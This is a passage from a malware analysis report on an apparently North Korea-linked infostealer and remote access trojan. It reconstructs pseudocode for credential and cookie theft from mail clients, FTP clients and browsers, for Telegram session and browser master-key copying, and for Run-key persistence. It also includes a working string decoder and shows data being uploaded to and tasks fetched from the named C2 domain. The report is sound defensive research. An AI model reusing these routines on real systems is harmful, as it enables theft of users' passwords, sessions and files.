if (Process32FirstW(hSnapshot, &pe32)) {
    do {
        // 3. Open Process & Get Token
        hProcess = OpenProcess(..., pe32.th32ProcessID);
        OpenProcessToken(hProcess, ..., &hToken);
        
        // 4. Get User SID & Resolve Name
        GetTokenInformation(hToken, TokenUser, ...);
        LookupAccountSidW(..., &Name, &Domain, ...);
        
        // 5. Format and Log
        // Format: \nDomain:\User\ProcessName
        swprintf(buffer, L"\n%s:\\%s\\%s", Domain, Name, pe32.szExeFile);
        LogAppend(buffer);
        
    } while (Process32NextW(hSnapshot, &pe32));
}
```
##### Program and Startup Enumeration (`[programs]`)
The function `sub_1800ae5f0` implements a module to inventory installed software. Instead of scanning Program Files, it targets the Windows Start Menu directories to list application shortcuts (.lnk files). This approach is efficient for identifying user-facing applications and potential persistence mechanisms.

**1. Path Resolution (sub_180031fd0)**  
The function retrieves the paths for specific system folders using `SHGetSpecialFolderPathW` or by querying the Registry key `Software\Microsoft\Windows\CurrentVersion\Explorer\Shell Folders`.
- **CSIDL 0x17:** CSIDL_COMMON_PROGRAMS (All Users Start Menu)
- **CSIDL 0xB:** CSIDL_STARTMENU (Current User Start Menu)

**2. Recursive Traversal**  
It constructs the path \Programs and initiates a recursive file search using `FindFirstFileW` (data_180111840) and FindNextFileW (data_1801115e0).

**3. Filtering and Logging**  
The code iterates through the files and directories found:

- **Shortcuts:** It checks file extensions for .lnk. Valid shortcuts are logged to the report buffer.
- **Special Directories:** It explicitly checks for standard subdirectories: "Accessories", "Games", "Administrative Tools", and **"Startup"**.
- **Persistence Check:** If the "Startup" folder is found, it is logged with a special prefix `[Dir]`. This allows the attacker to see what programs are configured to launch automatically.

**4. Cleanup**  
After iteration, it closes the file search handle using FindClose (data_180111950).
```c
// Log Header
LogAppend(buffer, "[programs]");

// 1. Get Start Menu Paths (All Users & Current User)
// sub_180031fd0 -> SHGetSpecialFolderPathW / RegQueryValueExW
GetSpecialFolder(CSIDL_COMMON_PROGRAMS, &path1);
GetSpecialFolder(CSIDL_STARTMENU, &path2);

// 2. Iterate Directory (Simplified Logic)
// data_180111840 -> FindFirstFileW
HANDLE hFind = FindFirstFileW(path, &findData);

if (hFind != INVALID_HANDLE_VALUE) {
    do {
        // 3. Filter for Shortcuts (.lnk)
        if (StrStrW(findData.cFileName, L".lnk")) {
            swprintf(logBuffer, L"%s\n", findData.cFileName);
        }
        
        // 4. Check for Special Directories
        // Checks: "Accessories", "Games", "Startup"
        else if (IsDirectory(findData) && StrCmpW(findData.cFileName, L"Startup") == 0) {
            swprintf(logBuffer, L"\n[Dir] %s", findData.cFileName);
        }
        
        // data_1801115e0 -> FindNextFileW
    } while (FindNextFileW(hFind, &findData));
    
    // data_180111950 -> FindClose
    FindClose(hFind);
}
```
##### Email & Credential Harvesting (`[mails]`)
The function `sub_180027510` acts as the primary controller for a multi-application credential stealer. This module is designed to target specific email clients and FTP software, extracting saved login information and passwords. The harvested data is formatted and logged under the header `[mails]`.

**1. Cryptographic Initialization**  
Before attempting theft, the malware initializes the Windows Cryptography API. The function sub_180032990 dynamically loads **crypt32.dll** and resolves **CryptUnprotectData**. This API is essential for decrypting passwords stored by Microsoft applications (Outlook, IE/Edge) using the user's DPAPI (Data Protection API) master key.

**2. Targeted Applications**  
The malware contains distinct subroutines for different software vendors:
###### A. Microsoft Outlook (sub_18002bfd0)
The code targets legacy and modern Outlook accounts by querying the Windows Registry. It iterates through identities found in:
- `Software\Microsoft\Internet Account Manager\Accounts`
- `Software\Microsoft\Office\Outlook\OMI Account Manager\Accounts`

It extracts configuration details (POP3 Server, SMTP Server) and specifically targets the encrypted password fields, typically named **POP3 Password2**, **IMAP Password2**, or **HTTPMail Password2**.

```c
// Target: Microsoft Outlook / Internet Accounts
// sub_180031790 -> RegOpenKeyExA
if (RegOpenKeyExA(..., "Software\\Microsoft\\Internet Account Manager\\Accounts", ...)) {
    // Iterate Accounts
    do {
        // Retrieve Encrypted Passwords
        // "Password2" indicates DPAPI encryption
        RegQueryValueExA(hKey, "POP3 Password2", ...);
        RegQueryValueExA(hKey, "IMAP Password2", ...);
        RegQueryValueExA(hKey, "HTTPMail Password2", ...);
        
        // Decrypt using CryptUnprotectData (loaded earlier)
        DecryptCredentials(...);
    } while (NextAccount());
}
```
[core-win32/HM_PWDAgent/outlook.cpp at master · hackedteam/core-win32 · GitHub](https://github.com/hackedteam/core-win32/blob/master/HM_PWDAgent/outlook.cpp)
###### B. Mozilla Thunderbird (sub_180029850)
This subroutine is highly sophisticated. It searches for profiles in `%APPDATA%\Mozilla\Profile`s and `%APPDATA%\Thunderbird\Profiles`. To decrypt the passwords, the malware essentially "borrows" the target application's own libraries.
- **Target Files:** It looks for password databases: `signons.txt (Legacy)`, `signons.sqlite`, and `logins.json`.
- **Library Loading:** It checks for and loads **nss3.dll** and **sqlite3.dll** from the Thunderbird installation directory. By loading these DLLs, the malware can call NSS functions to decrypt the saved credentials natively.
```c
// Target: Mozilla Thunderbird
// Search for Profile directory
FindRecursive(..., "Thunderbird\\Profiles", ...);

// Check for Password Databases
if (FileExists("logins.json")) {
    // Locate and Load Dependencies
    // data_180111778 -> PathCombineW
    PathCombineW(path, installDir, L"nss3.dll");
    LoadLibraryW(path); // Load the browser's crypto library
    
    // Parse and Decrypt
    // ...
}
```
###### C. FileZilla FTP (sub_1800283a0)
The malware targets the popular FTP client FileZilla. It retrieves the installation directory from the Registry (`Software\FileZilla`, value Install_Dir) and reads the configuration file **FileZilla.xml**.  
It implements an XML parser (sub_1800c94f8) to search for tags `<RecentServers>` and `<Server>`, extracting the Host, Port, User, and Pass fields.
```c
// Target: FileZilla
// Read FileZilla.xml
char* xmlContent = ReadFile("FileZilla.xml");

// Parse XML for Credentials
// sub_1800c94f8 -> Custom String Search
if (FindString(xmlContent, "<RecentServers>")) {
    while (FindString(currentPtr, "<Server")) {
        // Extract fields
        ExtractXMLValue("Host", &host);
        ExtractXMLValue("User", &user);
        ExtractXMLValue("Pass", &pass); // Often Base64 encoded
        
        LogCredentials(host, user, pass);
    }
}
```
###### D. Other Targets
The module also includes specific routines for legacy mail clients, emphasizing the malware's intent to harvest data from older systems:
- **IncrediMail (sub_180028e70):** Queries `Software\IncrediMail\Identities`.
- **Group Mail (sub_180028a20):** Queries `Software\Group Mail` and looks for `fb.dat`.
##### Browser Credential Harvesting (`[web]`)
The function `sub_180026420` serves as the controller for the browser data theft module. It initializes specific subroutines to target a wide range of web browsers. The gathered data is formatted and logged to the main payload file under the header `[web]`.
###### 1. Encrypted Configuration Decryption
The worker function `sub_180024790` contains several encrypted byte arrays used to hide target file paths. Using the Python script derived from the XOR logic, the specific targets were recovered.

**Python Decryption Script:**  
The following script replicates the malware's XOR routine to recover the hidden strings.
```python
import struct

def decrypt_blob(hex_string, xor_key):
    # Convert hex string to bytes
    data = bytes.fromhex(hex_string)
    decrypted = ""
    
    # Iterate through data in 16-bit chunks
    for i in range(0, len(data), 2):
        if i+1 < len(data):
            # Read 16-bit word (Little Endian)
            word = data[i] | (data[i+1] << 8)
            
            # Skip the null terminator checks for output clarity
            if word == 0: break
                
            # XOR with the key
            val = word ^ xor_key
            
            # Convert to character (The malware treats these as wide chars/bytes)
            if val < 128:
                decrypted += chr(val)
                
    return decrypted

# Blob 1 (180024bec): Key 0xC823
blob1 = "23c87ac842c84dc847c846c85bc87fc87ac842c84dc847c846c85bc861c851c84cc854c850c846c851c87fc876c850c846c851c803c867c842c857c842c87fc867c846c845c842c856c84fc857c87fc86fc84cc844c84ac84dc803c867c842c857c842c80000"
# Blob 2 (180024e76): Key 0x98be
blob2 = "be98e798df98d098da98db98c698e298e798df98d098da98db98c698fc98cc98d198c998cd98db98cc98e298eb98cd98db98cc989e98fa98df98ca98df98e298fa98db98d898df98cb98d298ca98e298e798df989e98ee98df98cd98cd98d398df98d0989e98fa98df98ca98df980000"
# Blob 3 (1800251a4): Key 0x8029
blob3 = "2980648040804a805b8046805a8046804f805d8075806c804d804e804c8075807c805a804c805b8009806d8048805d80488075806d804c804f8048805c8045805d807580658046804e804080478009806d8048805d8048800000"
# Blob 4 (180025470): Key 0x98be
blob4 = "be98e898d798c898df98d298da98d798e298eb98cd98db98cc989e98fa98df98ca98df98e298fa98db98d898df98cb98d298ca98e298f298d198d998d798d0989e98fa98df98ca98df980000"
# Blob 5 (1800256f5): Key 0xe784
blob5 = "84e7c6e7f6e7e5e7f2e7e1e7d7e7ebe7e2e7f0e7f3e7e5e7f6e7e1e7d8e7c6e7f6e7e5e7f2e7e1e7a9e7c6e7f6e7ebe7f3e7f7e7e1e7f6e7d8e7d1e7f7e7e1e7f6e7a4e7c0e7e5e7f0e7e5e7d8e7c0e7e1e7e2e7e5e7f1e7e8e7f0e7d8e7c8e7ebe7e3e7ede7eae7a4e7c0e7e5e7f0e7e5e70000"
# Blob 6 (180025a10): Key 0x8029
blob6 = "2980678048805f804c805b807580678048805f804c805b8009807e804180488045804c8075807c805a804c805b8009806d8048805d80488075806d804c804f8048805c8045805d807580658046804e804080478009806d8048805d8048800000"

print(f"Decrypted 1: {decrypt_blob(blob1, 0xC823)}")
print(f"Decrypted 2: {decrypt_blob(blob2, 0x98be)}")
print(f"Decrypted 3: {decrypt_blob(blob3, 0x8029)}")
print(f"Decrypted 4: {decrypt_blob(blob4, 0x98be)}")
print(f"Decrypted 5: {decrypt_blob(blob5, 0xe784)}")
print(f"Decrypted 6: {decrypt_blob(blob6, 0x8029)}")
```
**Decrypted Targets:**  
The malware targets specific paths relative to %LOCALAPPDATA%:
```
Decrypted 1: Yandex\YandexBrowser\User Data\Default\Login Data
Decrypted 2: Yandex\YandexBrowser\User Data\Default\Ya Passman Data
Decrypted 3: Microsoft\Edge\User Data\Default\Login Data
Decrypted 4: Vivaldi\User Data\Default\Login Data
Decrypted 5: BraveSoftware\Brave-Browser\User Data\Default\Login Data
Decrypted 6: Naver\Naver Whale\User Data\Default\Login Data
```
**Attribution Note:** The specific targeting of **Naver Whale** is a strong indicator of North Korean-nexus activity (Kimsuky/APT43), as this browser is predominantly used in South Korea.
###### 2. Target Analysis

**A. Mozilla Firefox**  
The malware checks for firefox.exe using the process list. If found, it executes sub_18002ae20.
- **Profile Path:** Decrypts and searches Data\Profile.
- **Target Files:** Explicitly looks for signons.sqlite, signons.txt, and logins.json.
- **Decryption:** It uses GetModuleHandle to find the loaded firefox.exe or loads nss3.dll to perform native decryption of the password store.

**B. Google Chrome / Chromium**  
The function sub_180024790 contains plain-text strings for Chromium-based browsers.
- **Paths:**
    - `Google\Chrome\User Data`
    - `Google\Chrome SxS\User Data (Canary)`
    - `Chromium\User Data`
- **Method:** It targets the SQLite database Login Data. It likely uses the previously initialized CryptUnprotectData (via crypt32.dll) to decrypt the password_value field, which is encrypted with the Windows DPAPI.

**C. Opera**  
The malware supports both legacy and modern Opera versions.
- **Legacy:** Checks `Opera\Opera\wand.dat` and `Opera\Opera7\profile\wand.dat`.
- **Modern:** Checks for Login Data (Chromium-style).
```
# Blob (180025fc3): Key 0xe784
blob = "84e7cbe7f4e7e1e7f6e7e5e7a4e7d7e7ebe7e2e7f0e7f3e7e5e7f6e7e1e7d8e7cbe7f4e7e1e7f6e7e5e7a4e7d7e7f0e7e5e7e6e7e8e7e1e7d8e7c0e7e1e7e2e7e5e7f1e7e8e7f0e7d8e7c8e7ebe7e3e7ede7eae7a4e7c0e7e5e7f0e7e5e70000"
```
`Opera Software\Opera Stable\Default\Login Data`

**D. Internet Explorer**  
The function `sub_180026380` initializes a virtual table (VTable) structure (CIeCredentialMgr). It uses the decrypted registry key IntelliForms\Storage2 to locate and decrypt IE credentials, likely utilizing the CredEnumerate API or direct registry parsing.
###### 3. Data Formatting and Logging
For every credential recovered, the malware formats the entry as a tab-separated string and appends it to the log buffer (sub_180032af0).
```c
// Format: URL [TAB] Username [TAB] Password [TAB] Date
// sub_1800c7b98 -> sprintf
sprintf(buffer, "%s\t%s\t", url, username);
LogAppend(main_buffer, buffer);

// ... Decrypt Password ...
// ... Format Date ...

sprintf(buffer, "%d/%d/%d %d/%d/%d\t", year, month, day, hour, minute, second);
LogAppend(main_buffer, buffer);
```
##### Cookie Harvesting (`[Cookies]`)
The function sub_1800aa800 implements a specific module for stealing browser session cookies. It iterates through the storage locations of major browsers, counts the number of cookies found, and logs this summary information.

**1. Target Identification**  
The malware decrypts specific strings to target four primary browsers:
- Fdorax -> **Chrome**
- Xhlx -> **Edge**
- Vdmgx -> **Whale** (Naver Whale)
- Cpoxcre -> **Firefox**

**2. Harvesting Logic**  
For each browser, the malware calls sub_1800aa410 (passing a browser-specific identifier, e.g., CC, EE, WW, FF). This subroutine likely performs the actual database parsing (SQLite) and decryption (DPAPI).

**3. Logging Format**  
The malware logs a summary of the theft operation under the header `[Cookies]`.
- **Format:** `%s** [Count=%d]\n` (Browser Name, Cookie Count).
- **Example Output:**
```
[Cookies]
Chrome** [Count=150]
Edge** [Count=23]
Whale** [Count=0]
Firefox** [Count=45]
```
The specific targeting of **Naver Whale** cookies is particularly dangerous in the context of South Korean targets, as these cookies often provide access to the Naver portal, email, and cloud services, which are central to the digital identity of many Korean users. 
##### Telegram and Master Key Extraction

The functions sub_1800af380 and sub_1800af620 are specialized routines designed to steal session tokens and cryptographic keys required to decrypt the previously harvested browser data.

**1. Telegram Desktop Session Hijacking**  
The function sub_1800af380 decrypts the string **"Telegram Desktop"**. It searches the user's roaming profile for the tdata directory.
- **Targeting:** It recursively searches for the specific session map file, identifying it by the hardcoded name hash/string **D877F783D5D3EF8C**.
- **Theft:** It copies this file and the associated key files to the staging directory. This allows the attacker to clone the victim's active Telegram session on another machine without authentication.

**2. Browser Master Keys (Local State)**  
The function sub_1800af620 decrypts the string **"Local State"**.
- **Purpose:** Chromium-based browsers store the AES key used to encrypt passwords in a file named Local State. This key is itself encrypted with the Windows DPAPI. Without this file, the Login Data databases stolen in Section 4.2.7 cannot be decrypted.
- **Action:** The malware locates these files for every installed browser and copies them to the staging folder, appending `_key` to the filename (e.g., cc_key).

**3. Extension Data (Local Storage)**  
It also searches for **"Local Storage"** and filters for `.ldb` (LevelDB) files. These files often contain session tokens for browser extensions, including cryptocurrency wallets (Metamask, etc.).
```c
// 1. Telegram Targeting
// sub_1800af380
DecryptString(buffer, "Telegram Desktop");
if (PathExists(tdataPath)) {
    // Look for the specific session map file
    if (StrStr(fileName, "D877F783D5D3EF8C")) {
        CopyFileW(source, dest, FALSE);
    }
}

// 2. Master Key Extraction
// sub_1800af620
DecryptString(buffer, "Local State");
// ... Iterate Browsers ...
swprintf(destPath, L"%s\\%s_key", stagingDir, browserName);
CopyFileW(localStatePath, destPath, FALSE);

// 3. Extension Data
DecryptString(buffer, "Local Storage");
FindFirstFileW(L"%s\\*.ldb", &findData);
```
#### 4.2.8 Archiving and Final Exfiltration

The function `sub_1800b5890` acts as the final stage of the net.dll module. It is responsible for compressing the harvested data and placing it where the main loader (sys.dll) expects it.

**1. PowerShell compression (Living off the Land)**  
Instead of embedding a compression library (which would increase file size and import entropy), the malware decrypts and executes a **PowerShell** command to zip the staging directory.
- **Decrypted Command:** `powershell.exe -w hidden Compress-Archive -CompressionLevel Optimal -Path`
- **Execution:** It constructs the full command line arguments pointing to the staging folder and the destination file.

**2. Final Placement**  
Once the archive is created in the temporary directory, the malware calls MoveFileExW (`data_180111808`) to move it to the location monitored by the loader.
- **Destination:** `%LOCALAPPDATA%\micro.zip`

**3. Cleanup**  
After moving the ZIP file, the malware deletes the temporary staging directory and the raw log files (micro.log) to remove forensic evidence before unloading itself.
```c
// 1. Decrypt PowerShell Command
// Blob: \x52\xe9... decodes to PowerShell command
DecryptString(cmdBuffer, encryptedBlob); 
// "powershell.exe -w hidden Compress-Archive -CompressionLevel Optimal -Path"

// 2. Construct Arguments
// Format: cmd "SourceDir" "DestZip"
swprintf(fullCmd, L"%s \"%s\" \"%s\"", cmdBuffer, stagingDir, tempZipPath);

// 3. Execute Compression
CreateProcessW(NULL, fullCmd, ...);
WaitForSingleObject(hProcess, INFINITE);

// 4. Move to Final Drop Location
// data_180111808 -> MoveFileExW
// Target: %LOCALAPPDATA%\micro.zip
MoveFileExW(tempZipPath, L"%s\\micro.zip", MOVEFILE_REPLACE_EXISTING);

// 5. Cleanup Staging Dir
RemoveDirectoryW(stagingDir);
```

**Operational Hand-off:**  
At this point, net.dll returns execution to sys.dll. As analyzed in **Section 3.4.9**, sys.dll detects the creation of micro.zip, unloads net.dll from memory, and proceeds to execute the persistent payload (notepad.log), which will presumably utilize this ZIP file.
### 4.3 Payload Analysis: notepad

The final payload, downloaded as main64.log, is the core Remote Access Trojan (RAT) designed to persist on the infected system. As established in the loader analysis (sys.dll), this module is loaded reflectively but is **not** unloaded after execution, allowing it to maintain a continuous connection to the Command & Control (C2) infrastructure.
#### 4.3.1 Decryption and Extraction

Consistent with the previous stages, main64.log is encrypted using RC4 with a 16-byte header serving as the key.

1. **Input:** main64.log (145,936 bytes).
2. **Key:** First 16 bytes (`e2b60d2ca6ad3e930ce9b461671a7cdd`).
3. **Output:** notepad.dll (145,920 bytes).

**CyberChef Validation:**  
The decryption process successfully recovered a valid PE64 DLL.

#### 4.3.2 File Metadata and Triage

Analysis of the decrypted notepad.dll using **Detect It Easy (DIE)** reveals:
- **File Type:** PE64 (DLL).
- **Compiler:** Microsoft Visual C/C++ (Visual Studio 2010). This matches the compiler used for the initial loader (sys.dll), suggesting they were developed or built in the same environment, unlike the older net.dll.
- **Attributes:** The file is not packed with a commercial packer like UPX or Themida, making the code directly accessible for analysis.

| Attribute     | Encrypted File (main64.log)                                      | Decrypted Payload (notepad.dll)                                  |
| ------------- | ---------------------------------------------------------------- | ---------------------------------------------------------------- |
| **Size**      | 145,936 bytes                                                    | 145,920 bytes                                                    |
| **File Type** | RC4 Encrypted Data                                               | PE64 (DLL)                                                       |
| **Compiler**  | N/A                                                              | MSVC (Visual Studio 2010)                                        |
| **SHA-256**   | 85D2053281A15362300B9A275C46461687B9C24FB318346A1820160776F461C1 | 67E58E80118577A3F011C7961E43EC1C9A5C16D58FB289B2E457618685EECAE4 |

```powershell
dir .\main64.log

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        05-12-2025     20:47         145936 main64.log

Get-FileHash .\main64.log

Algorithm       Hash
---------       ----
SHA256          85D2053281A15362300B9A275C46461687B9C24FB318346A1820160776F461C1

dir .\notepad.dll

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        06-12-2025     11:35         145920 notepad.dll

Get-FileHash .\notepad.dll

Algorithm       Hash
---------       ----
SHA256          67E58E80118577A3F011C7961E43EC1C9A5C16D58FB289B2E457618685EECAE4
```

#### 4.7.3 Static Analysis
With the main64.log file decrypted into notepad.dll, static analysis provides insight into its structure and intended execution method.

**1. Exports and Entry Point**  
The DLL contains a standard entry function (`_start`) and exposes a single export named **fool** (Ordinal 1).
- **Loader Execution:** As analyzed in the sys.dll loader (Section 3.4.9), this payload is loaded with the argument **0**. This instructs the reflective loader to execute the **Default Entry Point** (`_start / DllMain`) rather than a specific export.
- **Export Artifact:** While the loader does not explicitly call the export fool, its presence suggests it may be a legacy artifact or an alternative entry point for different infection chains.

| Ordinal | Function Name | Address     | Description                                      |
| ------- | ------------- | ----------- | ------------------------------------------------ |
| **1**   | **fool**      | 0x1800073c0 | Exported function (Not called by current loader) |
| **-**   | **_start**    | 0x18000bfd0 | **Entry Point (Executed by Loader)**             |


#### 4.3.4 Initialization (DllMain) and Configuration

The entry point delegates execution to sub_180001660, which functions as the **DllMain** of the malware. The code explicitly checks for `DLL_PROCESS_ATTACH (arg2 == 1)` before proceeding with initialization.

**1. Path Resolution & Normalization**
Function `sub_180001340` retrieves standard Windows system paths using **CSIDL** (Constant Special Item ID List) values and then processes strings to normalize them.

It calls this API multiple times with different CSIDL integers to get specific directory paths.
- **0x1c (CSIDL_LOCAL_APPDATA):** C:\Users\<user>\AppData\Local (Stored in data_18002cc70)
- **0x26 (CSIDL_PROGRAM_FILES):** C:\Program Files (Stored in data_18002a260)
- **0x1a (CSIDL_APPDATA):** C:\Users\<user>\AppData\Roaming (Stored in data_18002ba60)
- **0x8 (CSIDL_RECENT):** C:\Users\<user>\Recent (Stored in data_18002c470)
- **0x17 (CSIDL_COMMON_APPDATA):** C:\ProgramData (Stored in data_18002ce80)
After retrieving each path, the code runs a loop:
```c
if (rdx_1 - 0x41 u<= 0x19)
    *(&data_18002cc70 + (i_1 << 1)) = rdx_1 + 0x20
```
- **The Math:** 0x41 is 'A'. 0x19 is 25. The condition checks if the character is between 'A' and 'Z' (uppercase).
- **The Action:** It adds 0x20. In ASCII/Unicode, adding 0x20 to an uppercase letter converts it to **lowercase** (e.g., 'A' (0x41) + 0x20 = 'a' (0x61)).
- **Why?** The malware normalizes all paths to lowercase to make string comparisons easier later (Windows is case-insensitive, but malware C code might use case-sensitive strcmp or hashing).

**2. Working Directory Resolution**  
The malware calls `GetModuleFileNameW` to retrieve its own current path (which would be `%LOCALAPPDATA%\notepad.log` based on the loader's behavior). It then strips the filename to resolve the base directory (`%LOCALAPPDATA%` or the staging folder).

**3. Operational File Setup**  
Using this base path, the malware constructs absolute paths for several log files and configuration stores. These filenames strongly hint at the RAT's capabilities:

- **%LOCALAPPDATA%\netkey**
- **%LOCALAPPDATA%\netlist.log**
- **%LOCALAPPDATA%\history.log**
- **%LOCALAPPDATA%\netie**

**4. Execution Handoff (fool)**  
After setting up the global path variables, the DllMain function calls two critical setup subroutines: sub_1800011d0 and sub_180001540 (Persistence). Once these complete, it makes a direct call to **fool()**.

This confirms that while the loader invokes the Entry Point, the DllMain logic automatically transfers control to fool, which serves as the **Main Loop** of the RAT.
```c
// DllMain Execution Flow
SetupPaths();       // netkey, netlist, etc.
sub_1800011d0();    // Setup C2 & Fingerprint
sub_180001540();    // Setup Persistence (Registry)
fool();             // Enter Main Bot Loop
```
#### 4.3.5 System Fingerprinting and C2 Configuration
The function sub_1800011d0 is responsible for generating a unique victim identifier and defining the Command & Control infrastructure.

**1. C2 Domain Initialization**  
The code explicitly initializes the primary C2 URL string.
- **C2 URL:** https[:]//jjdhdh.nmailhub[.]com/
- **Significance:** This domain (nmailhub.com) is a known indicator associated with Kimsuky/North Korean nexus activity.

**2. Victim Fingerprinting**  
The malware generates a unique ID to track the infected machine using two methods:
- **Method A (Volume ID):** It attempts to retrieve the Volume Serial Number of the C: drive (GetVolumeInformationA). If successful, it formats this as a hex string.
- **Method B (User/Host):** It retrieves the Computer Name and User Name, combining them into the format `%ComputerName%_%UserName%`.
```c
// 1. Set C2
strcpy(Global_C2_URL, "https://jjdhdh.nmailhub.com/");

// 2. Generate ID
if (GetVolumeInformationA("C:\\", ... &volSerial, ...)) {
    sprintf(&Global_BotID, "%x", volSerial);
} else {
    GetComputerNameA(compName, ...);
    GetUserNameA(userName, ...);
    sprintf(&Global_BotID, "%s_%s", compName, userName);
    // Encode the ID
    sub_180001a30(&Global_BotID);
}
```
#### 4.3.6 Persistence Mechanism (NetService)
The function sub_180001540 ensures the malware survives system reboots by adding itself to the Windows Registry Auto-Run keys.

**1. Registry Key Creation**  
It opens (or creates) the standard "Run" key for the current user:  
`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`
**2. Payload Registration**  
It sets a new value named **NetService**.
- **Command:** rundll32 `"%LOCALAPPDATA%\sys.dll",s`
**3. Export Discrepancy Note**  
The persistence command explicitly calls the export function **s** of the loader (sys.dll). However, static analysis of sys.dll (Section 2) revealed only one export named **h**.
- **Implication:** This suggests a potential configuration error by the malware author, or that the sys.dll loader is polymorphic and different versions may export s. If sys.dll does not export s, the persistence mechanism will fail to execute the payload upon reboot, relying solely on the initial manual execution.
```c
// 1. Get Local AppData Path
SHGetSpecialFolderPathA(NULL, &pathBuffer, CSIDL_LOCAL_APPDATA, 0);

// 2. Open Registry Key
RegCreateKeyExA(HKEY_CURRENT_USER, 
    "Software\\Microsoft\\Windows\\CurrentVersion\\Run", ...);

// 3. Construct Command
// Note: targets export 's', differing from the 'h' used initially
sprintf(&command, "rundll32 \"%s\\sys.dll\",s", &pathBuffer);

// 4. Write Registry Value
RegSetValueExA(hKey, "NetService", 0, REG_SZ, &command, ...);
```
#### 4.3.7 Command & Control (C2) Loop and Exfiltration

The fool function (Export Ordinal 1) spawns several threads (as seen in the first snippet). The most critical of these is the thread executing sub_180007320, which serves as the **Main C2 Beacon**.
##### 1. Infinite Beacon Loop
The function sub_180007320 enters an infinite loop, sleeping for **10 minutes** (Sleep(0x927c0) = 600,000 ms) between iterations.  
In each iteration, it performs a series of tasks by calling subroutines:
- sub_180004bf0: Checks for updates and uploads harvested data (history.log).
- Other subroutines (sub_180005950, etc.): Likely handle specific commands or additional harvesting tasks.
##### 2. Data Exfiltration (history.log)
The function sub_180004bf0 is responsible for uploading collected data.
1. **Log Path Construction:** It constructs the path `%C2_URL%/history.log_` (e.g., `https://jjdhdh.nmailhub.com/history.log_`).
2. **File Reading:** It reads the local file `%LOCALAPPDATA%\history.log`.
3. **Upload:** It uses sub_180001ba0 (a wrapper for GenericHTTPClient) to POST the file content to the C2.
4. **Cleanup:** If the upload is successful, it deletes the local log file to clear evidence and prepare for the next batch of data.
```c
// 1. Construct Target URL
sprintf(&urlBuffer, "%s%s/history.log_", &Global_C2_URL);

// 2. Upload Data
// sub_180008060 -> GenericHTTPClient::Request
if (!UploadFile(urlBuffer, "POST", ...)) {
    // 3. Cleanup on Success
    Sleep(1000);
    DeleteFileW(g_HistoryPath);
}
```
##### 3. Update Mechanism (micro.zip)
The same function (sub_180004bf0) also checks for the presence of **micro.zip** in the Local AppData folder.
- **Trigger:** If micro.zip exists (dropped by the net.dll stage), the RAT processes it.
- **Extraction:** It extracts the contents to the Temporary Directory.
##### 4. C2 Communication Protocol (GenericHTTPClient)
The malware uses the WinInet API to communicate with the C2 server. The GenericHTTPClient class (vtable at 180001e6a) wraps these calls.
- **InternetOpenA**: Uses a hardcoded User-Agent:  
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36"
- **HttpOpenRequestA**: Opens a request (GET or POST).
- **HttpSendRequestA**: Sends the request.
    - It manually adds headers like `Content-Type: multipart/form-data; boundary=--------sdfaffi3457839sfhjkaskl`.
    - It handles Content-Length calculation for file uploads.
#### 4.3.8 System Profiling and Reconnaissance
The function sub_180002f20 acts as the persistent system profiler. Unlike the transient net.dll which does a quick scan, this module performs a deep audit of the system state, user activity, and network configuration.

**1. Network & User Identification**
- **IP Address:** Calls `gethostname` and `gethostbyname` to resolve the local IP address.
- **User Context:** Logs `Computername` and `Username`.

**2. Drive Enumeration**  
The malware iterates through all logical drives (A-Z) using GetLogicalDrives. For each drive, it queries:
- **Drive Type:** Fixed, Removable, Network (Remote), CD-ROM.
- **Volume Information:** Volume Name and File System (e.g., NTFS, FAT32).
- **Log Format:** Drives: `<Letter>: [<Type>] <VolumeName>`

**3. OS and Software Audit**
- **OS Version:** Queries `SOFTWARE\Microsoft\Windows NT\CurrentVersion` for detailed version info.
- **Architecture:** Checks GetSystemWow64DirectoryA to determine if the OS is **32-bit** or **64-bit**.
- **Internet Explorer:** Checks the installed IE version.

**4. User Activity Harvesting (.lnk Analysis)**
A specific subroutine (sub_1800046a0) is dedicated to tracking user activity by analyzing Windows Shortcuts.
- **Target:** It scans specific directories (likely Recent Items or Desktop) for ***.lnk** files.
- **Resolution:** It parses these shortcuts to extract the **Target Path**.
- **Goal:** This allows the attacker to generate a list of recently opened documents and applications, identifying potentially sensitive files that are not stored in standard directories.
```c
// Search for Shortcuts
sprintf(&searchPattern, "%s\\*.lnk", &targetDir);
hFind = FindFirstFileA(&searchPattern, &findData);

if (hFind != INVALID_HANDLE_VALUE) {
    do {
        // Resolve the Shortcut Target
        // Uses IShellLink::Resolve / GetPath
        ResolveShortcut(findData.cFileName, &targetPath);
        
        // Log the actual file location
        LogAppend(targetPath);
    } while (FindNextFileA(hFind, &findData));
}
```
All gathered information is formatted and written to a temporary file (sub_18000a8fc), which is then queued for exfiltration via the C2 loop.
#### 4.3.9 Task Retrieval and Data Exfiltration

The function sub_180005950 serves as the malware's primary tasking routine. Rather than a generic command shell, this function is specifically designed to retrieve a "target list" of files from the C2 server and exfiltrate them from the victim machine.

The malware beacons to the C2 server to retrieve a task file, specifically requesting a resource named /out.
- **URL Construction:** sprintf(buffer, "%s%s/out", &Global_C2_URL);
- **Action:** It sends an HTTP request to download the contents of this file.

Upon successfully downloading the /out file, the malware parses the content line-by-line using \r\n delimiters.
- **Format:** The downloaded data is interpreted as a list of **local file paths** that the attacker wishes to steal from the victim machine.

The malware iterates through each file path found in the list and triggers sub_180001ba0 to process the exfiltration. This function performs the following steps for each file:

- **File Access:** It attempts to open the targeted local file in "Read Binary" (rb) mode.
- **Obfuscation (Encryption):** It reads the file content and applies a single-byte XOR operation using the key **0xFE**.
- **Staging:** It generates a randomized temporary filename in the %TEMP% directory (e.g., filename_12412) to store the encrypted data, preventing filename collisions.
- **Upload:** It constructs an HTTP POST request containing the obfuscated file data and uploads it to the C2 server.
- **Local Cleanup:** Immediately after the upload attempt, the temporary staged file is deleted via DeleteFileA.

Once the malware has attempted to exfiltrate every file in the list, it sends a specific cleanup command back to the C2 server:
- **Command:** sub_180001ee0("delete", 6, "out", ...)
- **Purpose:** This instructs the C2 server to delete the /out resource, effectively clearing the task queue for this specific bot and preventing the malware from repeatedly stealing the same files.
```c
// Pseudocode representation of the logic

// 1. Fetch the "Steal List" from C2
if (DownloadFile(C2_URL + "/out", &taskBuffer)) {
    
    // 2. Parse the list line-by-line
    char* targetFilePath = strtok(taskBuffer, "\r\n");
    
    while (targetFilePath) {
